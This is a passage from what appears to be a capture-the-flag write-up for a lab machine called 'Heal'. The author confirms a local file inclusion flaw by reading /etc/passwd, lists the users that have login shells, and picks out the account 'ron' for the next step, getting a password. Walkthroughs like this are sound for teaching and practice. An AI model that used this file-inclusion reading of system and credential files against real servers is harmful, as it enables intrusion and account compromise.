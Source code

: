 
I'll try downloading `/etc/passwd` to see if LFI actually exists here.

![Heal/images/5.png](Heal/images/5.png)

And **BUMP!** I saw the contents of `/etc/passwd`

![Heal/images/6.png](Heal/images/6.png)

```zsh
❯ cat heal_passwd | grep -v "nologin"
root:x:0:0:root:/root:/bin/bash
sync:x:4:65534:sync:/bin:/bin/sync
pollinate:x:105:1::/var/cache/pollinate:/bin/false
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
ralph:x:1000:1000:ralph:/home/ralph:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
postgres:x:116:123:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
_laurel:x:998:998::/var/log/laurel:/bin/false
ron:x:1001:1001:,,,:/home/ron:/bin/bash
```

Pay attention to user `ron`, next we will search for information through LFI to see if there is anything.

### <span style="color: #3498eb;">Get the password</span>
